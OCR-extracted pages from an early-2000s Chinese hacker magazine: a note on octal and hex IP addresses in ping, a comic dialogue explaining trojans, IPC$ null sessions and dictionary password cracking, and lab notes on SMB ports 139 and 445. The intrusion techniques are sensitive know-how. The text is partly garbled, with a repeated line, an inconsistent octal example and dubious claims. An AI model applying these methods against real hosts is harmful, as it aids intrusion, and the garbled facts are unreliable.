

图 2



图 3



图 4

更有趣的是，如果你输入 Ping 202.108.044.172 并回车，此时在命令提示符窗口中显示的是我们在 Ping 地址202.108.36.172（图 4）！这是不是也出乎你的预料？

除了 Windows 系统外，在 FreeBSD 上测试的结果也是一样！为什么会这样呢？这是因为系统将上述 IP 地址中的“036”当成八进制而非十进制数字了，八进制数值“036”转换为十进制正好是“30”（你可用 Windows 自带的计算器来验算）。看明白了吗？在 IP 地址的十进制数字前面加上“0”就是表示这是八进制数，如果加上“0x”则表示这是十六进制数值。我们可验证一下，在命令提示符下输入 Ping 0x7f.0.0.1，回车后你会发现我们 Ping 的是127.0.0.1！因为0x7f正是十进制数值127的十六进制表示方式。

再试试输入 Ping 0x7f.0.0.1，猜猜看会怎么样？没错，这样输入 Ping 的还是127.0.0.1 这个 IP 地址！


图 5

> 在使用 Ping 命令 Ping 某个 IP 地址时，IP 地址的四部分中只能有一部分可采用八进制或十六进制，其余部分必须还是十进制数值，否则会出错。比方说，如果你将 IP 地址 202.108.36.172 转为八进制0312.0154.044.0254，然后去 Ping，系统会报告错误（图5）。同样，如果将十进制 IP 地址的各个部分全部转为十六进制，然后去 Ping 系统，也会报告出错，无法 Ping 通。所以还是老老实实采用十进制的 IP 地址去 Ping 为好，两个字：稳当！

好了，关于 Ping 命令的这个有趣小发现就说这么多，如有错误还请各位多多指教，小弟不胜感激。

20 电脑迷 2003.2004 年合订本下册

## 小鸡快跑

## 麻辣教师训练班 2

### 高康迪

小生开了一个训练班，美其名曰：麻辣教师训练班，虽然菜鸟们问题多，但我还是一一解答，下面的对话就发生在训练班里：

麻辣教师（肃风饰）：P Y 同志由于太忙了，所以由我来带课，咳！放心我一定会遵守《麻辣教师守则》，并且尽职尽责，为创建优秀文明班级而奋斗，谢谢大家！

众菜鸟：老师好！

麻辣教师：嗯！今天是第一天上课，所以大家有什么问题尽管问，我一定都清清楚楚明明白白放放放肆肆（乱用形容词……）地让大家搞明白，弄清楚。

菜鸟A：那我就先来问啦！

麻辣教师：好的，不过得一个一个来。

菜鸟A：我的QQ被盗了，上网时总是无端下线，鼠标有时不听使唤，朋友说我是被炸了，那个人到底是用什么炸的啊？原子弹么？

麻辣教师：……经过我仔仔细细反反复复的斟酌，你确实被炸了，也被黑了。

菜鸟A：啊！那我怎么办啊？那个人是不是黑客啊？黑客都是坏人么？

麻辣教师：这个吗？首先声明，老师并不是黑客，听我慢慢道来！许多人都以为黑客是“非法入侵或破坏他人者”（至少我的文曲星是这样讲的），其实这简直就是对黑客的诬蔑。真正黑客的定义是：“喜欢探索软件程序奥秘、并从中增长其个人才干的人。”

众菜鸟：真的么，他们都是干什么的？与常人有什么不同？

麻辣教师：不要急，其实黑客也是一个正常正常简简单单（又乱用形容词）的人，“黑客”大都是程序员，他们对于操作系统和编程语言有着深刻的认识，乐于探索操作系统的奥秘且善于通过探索了解系统中的漏洞及其原因所在。他们恪守这样一条准则：“Never damage any system”（永不破坏任何系统）。他们近乎疯狂地钻研更深入的电脑系统知识并乐于与他人共享成果，他们一度是电脑发展史上的英雄，为推动计算机的发展起了重要的作用。国际上的著名黑客均强烈支持信息共享论，认为信息、技术和知识都应该被所有人共享，而不被少数人所垄断。

众菜鸟（惊呼）：哇！黑客原来是这样的。

麻辣教师（故做深沉）：大多数黑客中都具有反社会或反传统的色彩，同时，另外一个特征是十分重视团队的合作精神。显然，“黑客”一词原来并没有丝毫的贬义成分。直到后来，少数怀着不良企图、利用非法手段获得的系统访问权去闯入远程机器系统、破坏重要数据，或为了自己的私利而制造麻烦的具有恶意行为特征的人（他们其实是“Cracker（骇客）”）慢慢地玷污了“黑客”的精神，其实黑客通俗点讲就是拥有非常大的好奇心和扎实计算机网络功底的人。

菜鸟B：那到底他用的是什么炸弹啊？

麻辣教师：其实菜鸟A同学老下线的原因不过是Cracker使用工具进行的炸弹攻击。

菜鸟A：啊？那是什么啊？

麻辣教师：嘿嘿！这可不是真正的炸弹，放心，这样的炸弹攻击不会把你炸飞的，在黑客技术中炸弹攻击就是利用特殊工具软件，在短时间内向目标集中发送大量超出系统接收范围的信息或者垃圾信息，目的在于使对方系统出现超负荷、网络堵塞等情况，从而造成目标的系统崩溃及拒绝服务。常见的炸弹攻击有邮件炸弹、逻辑炸弹、聊天室炸弹。

菜鸟B：偶知道了，但是这个炸弹在哪买啊？

麻辣教师（笑容刹时僵硬）：…什……么，这些炸弹工具不用买的，网上都可自由下载，不过使用这些工具攻击他人是违法也是黑客道德不允许的。所以那个炸你下线的人不是黑客，也没有资格作黑客！

菜鸟C：原来如此，那菜鸟A同学的QQ是怎么被盗的啊？

麻辣教师：其实你的QQ被盗和鼠标不听使唤都是因为中了特洛伊木马（Trojan Horse）的原因。

众菜鸟（教室乱做一团）：特洛伊木马？木马？什么意思啊？玩的木马？

麻辣教师（双手做了个手势）：我要讲的木马可不是你那个木马，这个木马可是无所不能啊！

菜鸟C（崇拜的目光）：真的有那么多神奇么？

麻辣教师：什么，不信？嘿嘿，仔细听着，特洛伊木马是指一个程序表面上在执行一个任务，实际上却在执行另一个任务。骇客的特洛伊木马程序事先已经以某种方式潜入你的机器，并在适当的时候激活，潜伏在后台监视系统的运行，它同一般程序一样，能实现任何软件的任何功能。

菜鸟A：它有什么功能啊？

麻辣教师（用手比划着）：例如拷贝、删除文件、格式化硬盘、甚至发电子邮件。典型的特洛伊木马是窃取别人在网络上的帐号和口令，它有时在用户合法登录前伪造一登录现场，提示用户输入帐号和口令，然后将帐号和口令保存至一个文件中，显示登录错误，退出特洛伊木马程序。用户还以为自己输错了，再试一次时，已经是正常登录了，用户也就不会有怀疑。其实，此时的特洛伊木马已完成了任务，躲到一边去了。

众菜鸟：木马好厉害啊！

麻辣教师（看了看大家期待的目光）：更为恶性的特洛伊木马则会对系统进行全面破坏。特洛伊木马最大的缺陷在于：必须先想方设法将木马程序植入到用户的机器中去。这也是为什么建议普通用户不要轻易执行电子邮件中附件程序的原因之一，因为特洛伊木马可能就在你的鼠标点击之间悄然潜入到你的系统之中，就犹如身体里的病毒，吃下去时没感觉，但发作时就晚了。

菜鸟D：有什么典型的木马？

麻辣教师：问有什么典型的木马……典型的木马嘛……就属灰鸽子（HGZ）啦！

菜鸟A：我是怎么中的这个木马啊？

麻辣教师：你有没有在QQ上运行别人发过来的程序呢？

菜鸟A：没有啊！

麻辣教师：那有没有浏览对方发来的网页呢？


## 小鸡快跑

菜鸟A：你一说，我到想起来了，前几天有个网友给我发来一个网址，说上面有好看的Flash，我看了，很搞笑。

麻辣教师：嗯，看来你是中了网页木马。

菜鸟A：网页木马是什么啊？

麻辣教师：网页木马就是把木马程序插入到网页中，把那个网址发来看看。

菜鸟A：好的，http://www.xxx.com/xx.htm

麻辣教师（自信的笑容刹那散去）：嗯……老师估计错误，这个不是网页木马……

菜鸟A：啊？那我是怎么中木马的呢？

麻辣教师：你是什么系统？

菜鸟A：Win2000 Server啊！

麻辣教师：看来是通过IPC进来的。

众菜鸟（疑惑的眼神）：IPC？是什么东东？

麻辣教师（马上恢复了自信的笑容）：IPC$（Internet Process Connection）是共享“命名管道”的资源（大家都是这么说的），它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用IPC$，连接者甚至可与目标主机建立一个空的连接而无需用户名与密码，而利用这个空的连接，连接者还可得到目标主机上的用户列表。

菜鸟A：IPC需要密码么？我设置了密码啊，是caicai1234。

麻辣教师：对方可能是利用IPC$访问共享资源，导出用户列表，并使用一些字典工具，通过暴力破解来猜出你的密码的。

众菜鸟（更疑惑）：字典工具？暴力破解？暴力……

麻辣教师（尴尬ING）：喂！大家不要捂着耳朵啊，我不是教你们使用暴力啊，暴力破解其实就是靠穷举密码法或依靠字典来猜解远程密码，穷举法依靠的是经验和对目标用户的熟悉程度。现实生活中，很多人的密码就是姓名汉语拼音的缩写和生日的简单组合。甚至还有人用最危险的密码——与用户名相同的密码！这时，穷举法拥有最高的效率。图1是X-WAY 2.6自带的暴力破解器。


众菜鸟：字典咧？新华字典？

麻辣教师（喷血ING）：不是新华字典。字典法的工作原理是这样的：由于网络用户通常采用某些英文单词或自己姓名的缩写作为密码，所以就先建立一个包含巨量英语词汇和常用短语、短句的密码词汇字典（也称“字典档”），然后使用破解软件去一一尝试。如此循环往复，直到找出正确的密码，或者将密码词汇字典里的所有单词试完一遍为止。这种破解密码方法的效率远高于穷举法，因此大多数密码破解软件都支持这种破解方法，这样就出现了许多生成字典档的工具，也叫字典生成器。图2就是一个典型的字典生成器——万能钥匙。



菜鸟A：那我到底怎么办啊？

麻辣教师：先看看你的机器开了什么端口？

菜鸟D：什么是端口啊？

麻辣教师：哎，你们的问题真多，不过身为麻辣教师的我绝对会让你们清楚的知道！端口简单的说就是计算机与外部通信的途径，不是指计算机硬件的I/O端口，而是软件形式上的概念。服务器可以向外提供多种服务，比如可以提供FTP服务、WEB服务、邮件服务等，由于这些服务不能共用端口，所以每个服务只能用一个端口，就像公路上只能走机动车，人行道上只能走行人一样。

一陌生人闪进教室（黄色潜水艇饰）。

麻辣教师（尴尬的笑容）：嗯，大家不要管他，继续问。

菜鸟C：什么是WEB服务？什么是FTP服务啊？

麻辣教师：FTP和WEB，这些一般是服务器基本所带的服务。FTP服务就是提供上传和下载文件的服务，登陆模式分为匿名登陆和实名登陆两种方式。匿名登陆不需要输入服务端认证帐户和密码就可登陆，不过必须服务器允许才行；而实名登陆必须有服务端认证的帐户和密码才能登陆。一般FTP所开放的端口为21，类型为TCP。WEB服务嘛，我相信这个最熟悉了，你现在在浏览网站没？如果浏览了这个网站，就肯定开了WEB服务，WEB服务通俗点讲就是提供给对方（客户端）浏览网页的服务，服务器上有了它才可以让你浏览网页、发帖子等，开的端口一般是80，类型为TCP。

菜鸟B：怎么才能使我的机器有WEB和FTP服务啊？

麻辣教师：装IIS啊！

众菜鸟：什么是IIS啊？

麻辣教师：……

陌生人：IIS全称因特网信息服务（Internet Information Server），就是微软带给大家的提供WEB、FTP、SMTP等服务的全能软件，Win2000 Server以上的版本和NT/XP PRO都自带有这个软件。有了它你就可以把你的计算机武装起来（菜菜啊，不要拿着枪啊，武装不是这个意思啊……），变成一个服务器了。许多大型网站也是利用IIS提供的WEB服务。

菜鸟A：谢了，我知道了，对了，你还没告诉我怎么办呢！

麻辣教师（再喷血ING）：是BOSS啊，幸会幸会，刚刚没注意到你，呵呵！

陌生人无语，匆匆走过，留下一阵让人神清气爽（乱用形容词N次……）的风。

麻辣教师：我接着说，先在CMD下输入netstat -an，看看开了什么端口。

菜鸟B：大哥，CMD是什么啊？TMD？


## 小鸡快跑

麻辣教师：我服了U，什么都不知道。
众菜鸟：是啊，谁叫你是老师咧！
麻辣教师：无语……不是TMD，偶还是跟你讲讲吧，CMD 是NT以上版本自带的软件，它跟Win98的MS-DOS功能是一样的，但和MS-DOS有很大的区别。很多人以为MS-DOS就等于CMD，其实不然，CMD更改了许多命令，CMD比MS-DOS更加强大，但它只存在于NT以上的系统，所以Win9X用户是没有的。调用CMD的方法：选择“开始→运行”，然后在弹出窗口中输入CMD。
菜鸟A：好的，我输入了，出现了很多E文和数字。
麻辣教师：把显示的东西发过来。
菜鸟A：好的，给……
麻辣教师：你的7626端口开了，看来是中了著名的冰河。
菜鸟A：怎么清除啊？
麻辣教师：执行“开始→运行”，在弹出窗口中输入regedit，打开注册表，进入这个地方：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run。删除路径为c:\winnt\system32\kernel32.exe和c:\winnt\system32\syscxplr.exe的项，接着到c:\winnt\system32\里，删除这两个文件即可！
菜鸟A：好了，非常感谢你啊！
麻辣教师（如释重负的神态）：嘿嘿，不用谢！
菜鸟B：那个人是怎么知道菜鸟A的电脑有IPC啊？
麻辣教师（神经再次绷紧）：通过扫描器。
菜鸟D：……最后问一下，扫描器是什么？
麻辣教师：真是的，这么多问题。
陌生人再次出现，一脚把麻辣教师踢出3丈开外。说到：麻辣教师第3章第4条明确规定，教师不允许抱怨。
麻辣教师：是是，BOSS此言极是！
陌生人再次消失。
麻辣教师（整理了一下衣着）：扫描器是一种通过收集系统的信息来自动检测远程或本地主机安全性弱点的程序，通过使用扫描器，可发现远程服务器的各种TCP端口的分配及提供的服务和它们的软件版本。这就能让骇客或管理员间接或直观地了解远程主机所存在的安全问题。
众菜鸟：太谢谢老师啦！

麻辣教师：你要记得装杀毒软件，怕对方装了后门，偶知道绝对不知道后门是什么意思，先解释了！不是你们学校的后门。黑客技术中的后门程序用偶自己的话说，就是入侵之后方便再次进入的程序，比如看到书中一篇文章很好，但每次找都要找很久，我就拿个书签夹在里面，这样就很易找到了，后门的意思也是这样。
众菜鸟：哇！我怎么才能变得像你这么厉害咧？
麻辣教师：嘿嘿，多买点《黑客X档案》看吧，下课前我们来总结一下今天所学的内容：


# 139端口完全接触

宁静 致远

关于139这个端口的讨论的确不少，但通过实验来说明清楚的文章不是很多，而且老鸟们可能觉得太过简单，一句带过，这可苦了我们这些菜鸟。看了2003年第1期X档案的“139端口实战与困惑”一文后，深有感触。所以我想接着石勒同学的这篇文章再写一篇关于139端口的测试报告，目的是想把自己做实验得出的结论和观点拿出来与大家一起讨论，同时也能解答石勒同学最后提的几个问题。黑客精神从某种角度上讲也是对问题孜孜不倦的钻研精神呀！
我想先说一下在Win2k下的共享问题。以前看过些文章，说在Win2k下139和445端口是同时打开的，在139不能使用时再使

```
D:\>ipconfig

Windows 2000 IP Configuration

Ethernet adapter 本地连接:

        Connection-specific DNS Suffix  . :
        IP Address. . . . . . . . . . . . : 192.168.0.2
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . :

D:\>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:139            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1025           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1026           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1028           0.0.0.0:0              LISTENING
  TCP    192.168.0.2:139        0.0.0.0:0              LISTENING
  TCP    192.168.0.2:445        192.168.0.1:1073       ESTABLISHED
  UDP    0.0.0.0:445            *:*
  UDP    0.0.0.0:500            *:*
  UDP    0.0.0.0:1025           *:*
  UDP    0.0.0.0:1026           *:*
  UDP    0.0.0.0:1027           *:*
  UDP    0.0.0.0:137            *:*
  UDP    0.0.0.0:138            *:*
  UDP    192.168.0.2:137        *:*
  UDP    192.168.0.2:138        *:*

D:\>
```

用445端口。于是我用一台地址为192.168.0.1（Win2k）的电脑A来连接地址为192.168.0.2（Win2k）的电脑B，建立ipc连接后，在电脑B上用netstat -an来查看端口状态（图1）。
可以看出，在139和445同时开启时，默认连接端口是445。于是我想关闭445端口，看看有什么情况。但停止甚至卸载了

黑客X档案2003 2004年合订本(下卷)

## 小鸡快跑

Microsoft 网络的文件和打印机共享服务后，445 端口还是开着。现在只有一个办法了，上网找，果然有，在注册表的 hkey_local_machine\system\current controlset\services\netbt\parameters 位置上新建一个 type 是 reg_dword 的值，名为 SMBdeviceEnabled（一定要这么写），值为 0。重起后，不装载不装共享服务，445 端口都会关闭，电脑 B 的端口状态如图 2。

再从电脑 A 连接电脑 B，大家可以清楚地看到，这时是通过 139 端口来建立连接的，如图 3。

之后我再开启电脑 B 的 445 端口（把 value 改为 1），把电脑 A 的操作系统换成 Win98 来连电脑 B，连接成功后如图 4。

大家可以清楚的看到，电脑 A 使用了 139 端口。注意（Win98 连接 Win2k 时一定要登录到相关域，或 Win2k 自身的工作组，然后用 Win2k 的相关用户名和密码来登录 Win98。有个测试方法，Win98 登录完成后，在查找计算机输入 Win2k 的地址，找到后，如果该机器的位置显示域名或工作组名则肯定能连，如果显示未知则无法连接）。这时再关闭电脑 B 的 139 端口，电脑 A 就连不上了，电脑 B 也没有使用 445 端口来建立连接，毕竟微软在编写 Win98 时，还没有 Win2k。所以我得出的结论是：用 Win2k 连 Win2k 时，先用 445 端口连，失败后再用 139 端口，Win98 连 Win2k 时，用的是 139 端口，139 如果失败则无法连接。

上期石勒同学提到了连接到 C$ 和 admin$ 的问题，我觉得通过 Win2k 连接 Win2k 的共享资源是建立一个 ipc 连接，所以用的端口是 445，如用 Win98 访问那肯定是 139 端口。不仅共享服务，打印机也一样，都要用到这两个端口，这也是为什么该服务叫网络的文件和打印机共享呀，嘿嘿！

最后还要提一点，在 Win2k 下共享资源还需要开启 netlogon 服务，否则也无法访问共享资源。所以访问 Win2k 共享资源的三个必要条件是：提供共享资源的电脑需开启 netlogon 服务、开启文件和打印机共享服务、开启 445 端口和 139 端口。所以说我们在网上即使扫描到开放的 445 或 139 端口，也不一定能通过 ipc 来建立连接。

接着我再说一下关于信使服务的端口。在电脑 A 上向电脑 B 发了五条 test 消息后，电脑 B 马上收到，接受速度基本上和发送同步完成。但在电脑 B 上看不出 139 端口的使用情况，估计收完消息后马上就关闭了。在电脑 A 上输入 netstat -an 后，如图 5 所示，可以看出电脑 A 与电脑 B 的 139 端口连接过五次。因此，目前基本上确定接受信使服务用的是 139 端口。

为了进一步证明，关闭了电脑 B 的 139 端口后再发消息（注意：禁用 139 端口不用重起，启用 139 端口需要重起才有效）。这时电脑 B 需等十八秒才能收到电脑 A 发来的消息，且在电脑 A 上无法像图 5 那样能看出是否已和电脑 B 连接过，电脑 A 的端口状态如图 6。

但这里有个有趣的现象，就是图 6 中那个 1091 端口处于打开状态，但马上再键入 netstat -an 查看电脑 A 的端口状态时，发现该端口已关闭（图 7）。因此判断该端口就是电脑 A 发送消息给电脑 B 时使用的端口，但没有显示连接电脑 B 的端口号。由此估计，接受消息除了 139 外可能还用了别的端口，查




